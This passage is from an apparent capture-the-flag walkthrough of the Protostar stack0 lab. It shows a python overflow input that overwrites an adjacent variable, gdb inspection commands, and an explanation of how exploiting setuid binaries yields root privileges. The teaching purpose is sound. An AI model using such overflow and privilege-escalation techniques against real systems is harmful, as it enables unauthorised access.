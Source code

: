 We know know the relative positions of `modified` and `buffer` in memory. Some
quick subtraction ( 0x5c - 0x1c ) tells us that the start of buffer and
start of modified are only 64 bytes apart. Thus, we know they are directly
adjacent. To avoid overwriting the old instruction pointer, we simply need to
modify our malicious input such that it only overflows into `modified` and not
any further:

```bash
python -c "print 'a'*65;" | /opt/protostar/bin/stack0
```

Let's use gdb to visualize what is going on. 

```bash
$ python -c "print 'a'*65" > 65.txt
$ python -c "print 'a'*64" > 64.txt

$ gdb /opt/protostar/bin/stack0
disass main
break *0x08048411 // right after call to gets
r < 64.txt
x/s $esp+0x1c // to see our string
x/68bx $esp+0x1c // to see the bytes in hex
//Warning, everything is flipped! higher addresses are lower
//The 0x00000000 right after the 'AAAA' is modified
c
r < 65.txt
x/68bx $esp+0x1c
c
```

### Setuid Binaries

Why is it that we have don't have permission to read "flag.txt" but when
exploit the binary when read "flag.txt"? In other words, why does a binary
(that we can run) have different permissions than we do?

First, let's take a look at the stack4 binary using the `file` utility: `file
./stack4`. The output includes a curious bit of text calling stack4 a "setuid"
ELF executable.  What does "setuid" mean here? To find out, we start the same
way we always do on Linux: reading the MAN page. 

The man page gives us more information (specifically, about the C library
funciton, but they are related). We can see that setuid stands for set user
identity. It allows a process to run as if it was started by a particular user
and, consequently, run with that user's permissions.  Setuid binaries are
useful for acheiving **priviledge escalation**. 

If we run `id` we can see information about the current user, including their
user id and group id. We can use `cat /etc/passwd` to see all of the users on
the system. For example, we see that "root" has a userid of 0. 

Fortunately, a malicious user cannot simply write a program and use setuid to
make that program run as root. The OS has permissions in place to prevent that
(as we can posit from looking at the errors section of the man page). So what
is it good for? It is often used to allow an unpriviledged user to access
hardware features or to temporarily give a user elevated priviledges, e.g.,
`ping` and `sudo` are both setuid binaries.  For an attacker, though, if he can
exploit a setuid binary that is running as root, then he effectively has root
priviledges. 



